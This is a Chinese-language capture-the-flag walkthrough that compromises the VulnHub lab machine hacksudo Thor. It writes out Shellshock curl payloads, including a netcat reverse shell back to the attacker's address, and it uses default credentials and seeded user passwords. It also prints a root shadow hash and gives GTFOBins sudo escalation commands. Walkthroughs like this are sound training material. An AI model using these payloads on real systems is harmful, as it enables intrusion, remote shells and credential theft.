



> 靶机环境介绍
+ [hacksudo--Thor](https://download.vulnhub.com/hacksudo/hacksudo---Thor.zip) 
+ 难度等级 <font color=yellow> 中</font>

目标:
+ 取得 root 权限 +  Flag


**所用技术栈**
+ 主机发现
+ 端口扫描
+ WEB 信息收集
+ **开源源代码泄露**
+ 默认账号密码
+ SQL 注入
+ 破壳漏洞
+ GTFOBins提权

## 主机发现与端口扫描

主机发现

```bash
sudo arp-scan -l
```

发现目标靶机为 `10.0.2.14`

然后进行全端口扫描
```bash
sudo nmap -p- 10.0.2.14
```


发现目标靶机开放了 `22,80` 端口

然后我们对其进行服务版本的扫描
```bash
sudo nmap -p22,80 -sV -sC 10.0.2.14
```


## Web 信息收集

既然开放了 80 端口，我们照常使用浏览器来访问一下这个目标靶机开放的网站服务。

> 发现是一个银行系统，并且首页有一个登入表单


既然有表单，我们就先尝试一下弱口令，如 `admin/admin admin/123456 ...`

发现主流的弱口令密码都没能成功登入进去.


这个时候我们就可以去查看一下网站的源代码，去尝试在源代码里面发现一些有用的信息。

<font color='red' face=Monaco size=3>我们在首页的源码里面发现了该网站存在 `images` 路径。</font>



所以我们使用浏览器去访问了一下这个目录，发现就一些普通的图片并没有一些有用价值的信息.


<font color='red' face=Monaco size=3>随即我们就访问别的链接，并查看其源码。</font> 在第二个链接 `News` 里面我们发现了这样一段注释 `cgi-bin`


> 如果这时候，你并不知道什么是 `cgi` ，那么你就需要去上网搜索相关概念/关键字。<font color='red' face=Monaco size=3>不能放过任何一个有可能渗透进入靶机的机会</font>

[what is cgi -- wikipedia？](https://en.wikipedia.org/wiki/Common_Gateway_Interface)

现在我们就知道了 `CGI - Common Gateway Interface` 

<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;font-family:monospace'>
A CGI-bin is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. Common Gateway Interface (CGI) is a resource for accommodating the use of scripts in Web design. 
  <div style='text-align:right;padding:0 15px;'>
  - techopedia
  </div></div>

也就是说 : **一般来讲 `cgi-bin` 这个文件夹一般会存放一些 `shell,cgi` 的脚本文件，提供一些操作系统的命令，方便我们网站来使用操作系统内的命令**，指令来实现相应的功能

<font color='red' face=Monaco size=3>所以这很有可能是我们突破靶机边界的一个点，我们需要重点关注。</font>

按照之前的渗透思路，我们还需要继续对网站进行更进一步的信息收集，
+ 网站目录的发现
+ 网站框架扫描等

我们还是使用 `dirsearch` 这个工具进行扫描
```bash
sudo dirsearch -u http://10.0.2.14
```
扫描之后我们发现了一个非常重要的文件 `README.md`


## 开源代码泄露

我们知道，在开源项目里面，往往 `README.md` 都是开发者介绍他所开发的项目，并且对项目进行说明。

当即我们就将这个文件下载下来，并对该文件进行查看，不出所料，我们这台靶机开发的 web 服务好像就是使用了一个开源项目。


然后我们就通过这个文件里给的地址，去访问一下这个项目，看看这个网站，是否真的使用该开源项目。
+ [Github link](https://github.com/zakee94/online-banking-system)

通过访问我们确定我们靶机使用的开源项目就是该开源项目.

这时我们的黑盒测试就变成白盒测试了。

<font color='red' face=Monaco size=3>我们可以通过审计源码来发现网站的漏洞。</font>


### 网站业务漏洞

> 这部分内容与我们渗透进入靶机没有直接联系.

<font color='red' face=Monaco size=3>如果你只想了解如何渗透进目标靶机,对这部分不感兴趣，你可以跳过这部分内容</font>

我们知道一个网站项目内的 `XXX.sql` 文件一般都是一些个建库建表，建字段，插入默认数据的 SQL语句文件。

我们很想知道，该目标服务器内存在哪些用户啊等等。  

查看发现里面存在一个 `customer` 表，而且上面也说了这个就是用户表的字段。


在下面我们发现了存在两个字段，`uname,pwd` 应该就是用户名和密码了

再往下查看时，发现了一条 `SQL` 插入语句，很明显这条语句是用来测试或者生成一些初始用户的。


我们将其复制，粘贴出来，并根据刚刚的字段，提取出这里面的用户名和密码

```sql
INSERT INTO `customer` VALUES (
    (1,'Nafees','Zakee','male','1994-11-28',123456789,'zakee.nafees@gmail.com','+91 8918722499','22/10, Secondary Road, Durgapur - 713204','delhi',1122334455,1234,'zakee94','nafees123'),
    (2,'Md Salman','Ali','male','1994-10-11',987654321,'ali.salman@gmail.com','+966 895432167','Al Ahsa Street Malaz, King Abdulaziz Rd, Alamal Dist. RIYADH 12643-2121.','riyadh',1133557788,1234,'salman','salman123'),
    (3,'Tushar','Kr. Pandey','male','1995-02-03',125656765,'tusharpkt@gmail.com','+334 123456987','Champ de Mars, \r\n5 Avenue Anatole France, \r\n75007 Paris, France','paris',1122338457,1357,'tushar','tushar123'),
    (4,'Jon','Snow','male','1985-02-03',129156787,'jon.snow@gmail.com','+1 8918332797','The Night Watch,\r\nKing in the North,\r\nThe North Remembers,\r\nWesteros.','newyork',1233556739,1234,'jon','snow123');
```

发现其插入了这四个用户。

```bash
zakee94,nafees123
salman,salman123
tushar,tushar123
jon,snow123
```

然后我们就使用这几个账号来尝试登入网站。

这边使用 `jon,snow123` 这个用户来进行尝试


发现成功登入进去。因为是银行系统，所以有转账记录，转账等操作。

我们先查看一下这个账户，发现其账户下余额还有 17万多,所以我们就想能不能将这 17万余额转移到别的账户上呢?


我们随便添加一个用户然后进行转账测试


发现转账需要我们输入密码，这时候我们输入我们登入用户时候用的密码。


<font color='red' face=Monaco size=3>发现成功将我们预设的金额转给了我们指定的账户里</font>


并且在转账记录里也存在我们刚刚进行转账的这个操作


<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;'>
在现实生活中，网站开发者大多数都注意到系统的安全，有时候会忽视掉业务、逻辑安全。导致悲剧发生.
</div>

就像这个网站一样，支付密码和网站登入密码一样，网站又没有删除初始用户，并且支付时没有二次认证，导致我们能将钱转走。

### 默认账号、密码

在访问该项目时，我在下面看见了这样一段话。<font color='red' face=Monaco size=3>说该网站的默认管理员账号密码为 ： `admin / password123`</font>


这时我们就应该测试这个用户名和密码，看看网站管理员有没有将默认的用户名和密码修改掉。

然后我们又在文件夹里面发现了这样一个文件: `admin_login.php`


> 因为在很多情况下，网站管理员会忘记修改自己开发者给他们设立的默认账号和密码

然后我们就访问一下这个路径，发现是管理员页面，这时候我们尝试使用一下默认的账号和密码 


发现成功登入进管理员的后台系统。

发现里面有个添加用户的选项，我们随机填写一些内容，提交之后，发现数据库给我们报错了

<font color='red' face=Monaco size=3>这就说明这边表单存在一个 `Sql`注入的漏洞</font> 

> 因其和我们突破边界并没有实质性的帮助，所以这边就并不演示了。


管理员既然能查看所有用户的信息（包括用户的用户名和密码,并没有进行加密保存），这就有点恐怖了.


## **破壳漏洞**

前面的工作都对我们渗透进入这台靶机没有实质性的帮助,但是在真实渗透过程中，一定要都进行渗透，不能遗留某处。

然后我们想到了之前说的 `cgi-bin` 这时候我们访问一下这个网站的路径，看看网站上是否真的使用了 `cgi` 技术，<font color='red' face=Monaco size=3>因为一般会将脚本放入到 `cgi-bin`这个文件夹里,如果存在这个路径就说明这个网站很有可能了 `cgi` 技术</font>

可是当我们访问这个路径时，它给我们返回了 `Forbidden` 而不是 `403` 说明目标服务器上很有可能存在这个路径，只是它设置了相应的访问控制权限。


我们知道我们对一个网站的目录没有访问权限，不一定代表我们对里面的文件也没有权限

<font color='red' face=Monaco size=3>所以我们决定再次使用 `dirsearch` 对该路径里可能存在的文件进行发现。</font>

```bash
dirsearch -u http://10.0.2.14/cgi-bin/ -f -e cgi,sh
```


我们通过使用参数并指定文件的后缀名，来对目标文件夹内的文件进行扫描

<font color='red' face=Monaco size=3>发现存在两个文件给我们返回了 `500` 的响应码,而我们知道 500 响应码是服务端错误</font>

服务端给我们返回 500 响应码,说明这个文件很有可能存在，只是因为我们只是对服务器只是发送了一个请求，并没有传递参数，可能需要传递某些参数，才能使用这些脚本，而我们没传递参数,服务器不知道如何响应我们的请求，所以给我们返回了 `500` 服务端错误。


### 破壳漏洞基本原理解释

我们知道，在 Linux 里面我们可以使用 Shell 来定义函数，并运行系统命令。


而且 Linux 系统还存在环境变量，环境变量里都是键值对形式的数据.

用来保存系统，程序...的参数，变量，路径，值等等作用

所以我们也可以给环境变量定义一个 shell 函数，里面存在一些个系统命令


在早期的 `bash` 里，因为对环境变量的检测比较松散，或者说并不检测，所以导致我们能使用 bash 运行环境变量值里面的命令。

这也就是破壳漏洞产生的根本原因。  

但是由于现在的 kali 使用 zsh，并且使用较新版本的 bash 也就不存在这个漏洞，所以我们就不能运行我们在环境变量里定义的函数        


### 破壳漏洞利用

我们知道，在 `nmap` 里面还存在很多的脚本，现在 <font color='red' face=Monaco size=3>我们就要使用 `namp` 里面的脚本来对目标靶机的网站进行扫描</font> ，测试目标靶机网站服务上是否存在我们能利用的破壳漏洞。  

```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/shell.sh,cmd=ls 10.0.2.14
```
扫描之后，发现目标服务器上的 `shell.sh` 确实存在破壳漏洞,并且好像还是有效的。


同理我们对 `backup.cgi` 进行扫描探测。

```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/backup.cgi,cmd=ls 10.0.2.14
```
发现 `backup.cgi` 存在同样的破壳漏洞。


我们可以尝试使用下面的方式对该漏洞进行利用，如果利用成功，服务器将给我们返回 `nc` 命令存在的路径

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'which nc'" \http://10.0.2.14/cgi-bin/shell.sh
```
运行之后，发现服务器成功给我们返回 `/usr/bin/nc` 说明我们成功利用了破壳漏洞，并且成功让服务器执行我们的命令。


既然我们知道了服务器上存在 nc,那我们就可以尝试使用以下 payload 让服务器给我们反弹 shell 

> 记得在 kali 上监听对应的端口。

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'nc -e /bin/bash 10.0.2.11 4444'" \http://10.0.2.14/cgi-bin/shell.sh
```

运行之后，发现我们成功获得了一个 `shell`


我们还可以使用 `python` 对我们获得的 shell 进行一个基本的升级
```python
python -c "import pty;pty.spawn('/bin/bash');"
```


然后我们可以查看一下 `cgi-bin` 里面的几个脚本文件,并没有什么有用的发现。


## GTF0Bins 提权

既然我们突破了边界，那么接下来就是需要提权了。

首先我们查看了一下 `sudo` 权限配置


发现我们可以使用 `thor` 用户不需要密码就能运行 `/home/thor/./hammer.sh`

所以我们试图进入到这个路径下，去查看一下该文件，发现我们并没有权限进入到这个目录

随即我们就使用 `sudo` 运行一下这个脚本记得接 `-u` 参数指定 `thor` 

```bash
sudo -u thor /home/thor/./hammer.sh
```

运行完之后，发现这个脚本有两处需要我们输入。
第一次随便输入一点内容之后，脚本只是给我们回显了一点字符。并没有什么有用的信息。


故而我就去查看了一下脚本输出的内容：上面说 `HELLO want to talk to Thor`

而我们又知道 `Thor` 是靶机的名字，所以我就想到了会不会在这个框内输入命令，会被靶机所执行？

在尝试一下之后，发现当我们在第二个框内输入命令之后，程序确实会给我们执行我们输入的命令。


既然能执行命令，那肯定也能执行 `bash` 命令从而给我们反弹 `thor` 用户的 shell 


果不其然，我们输入 `bash` 之后我们成功获得了 `thor` 用户的 shell     

既然我们是 `thor` 用户，那我们肯定可以进入到刚刚脚本所在的目录，我们查看一下这个文件,审计一下。


发现这个文件只是读取我们的输入，然后执行它。

并没有什么有用的信息.

```bash
#!/bin/bash
echo
echo "HELLO want to talk to Thor?"
echo 

read -p "Enter Thor  Secret Key : "  key
read -p "Hey Dear ! I am $key , Please enter your Secret massage : " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```
然后我们再查看一下 `thor` 用户的 `sudo` 配置


发现我们居然可以以root权限执行 `cat` 命令，所以我们就可以使用 `cat` 查看系统内的任何文件，我们查看一下系统内的 `/etc/shadow` 文件，发现真的成功查看


```hash
root:$6$1YV0h.2rYTAvcB.o$cLPgAevmbnBo8dtADheWYcIfGLg157gfrCzZsKqv268MDkimBW7JcnQK6sI79fXsa1Hm5GmP8Kni05w.2nJfc0:18838:0:99999:7:::
```
一般到这里，很多人就开始对这串密文进行暴力破解...我们知道如果暴力破解的话，一定需要我们字典内包含该密码，并且需要一段时间，如果字典内没有该密码，那么一辈子也跑不出来。

<font color='red' face=Monaco size=3>所以我就将目光停留在另一个我们不需要密码就能以root权限执行的命令</font>

当我们执行一下命令时，我们成功获得 root 权限
```bash
sudo service ../../bin/bash
```


### <font color='red' face=Monaco size=4>gtfobins website</font> 

你可能会很好奇，为什么我们运行 `sudo service ../../bin/bash` 就能提权成功呢？

为啥不是运行 `sudo service /bin/bash` 呢？

<font color='red' face=Monaco size=3>这就要介绍一个比较厉害的网站</font>:
+ **[gtfobins website](https://gtfobins.github.io)**

<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;'>
这个网站列举了大量系统命令因权限分配不当问题，导致我们可以尝试的提权手段。</div>

它的首页长这个样子.


刚刚我们知道能通过 `sudo service ../../bin/bash` 提权成功，也是在这个网站上找到的。

<font color='red' face=Monaco size=3>我们只需要在网站上输入我们想尝试的命令 (想通过该命令进行提取),然后网站就会给我们相应的提权方式，并且需要满足什么条件才能通过该命令进行提权.</font>

如我们输入 `service` 之后


它就告诉我们如果 `service` 命令具有 `sudo` 权限的话，就能通过 `sudo service ../../bin/sh` 来进行提权

当然命令其实是不唯一的，如下图，我们通过 `sudo service ../../../../../bin/bash` 也提权成功了



---

**彩蛋**

我们进入到 root 家目录之后，会发现两个文件，查看其中的 proof.txt 时，只看到一些色块，但是当我们将字体缩放到很小的时候,我们就能看见一把锤子


查看另一个文件，只是告诉我们这台靶机已经 `rooted`


<font color='green' face=Monaco size=4>至此这台靶机就已经打靶完成。</font>
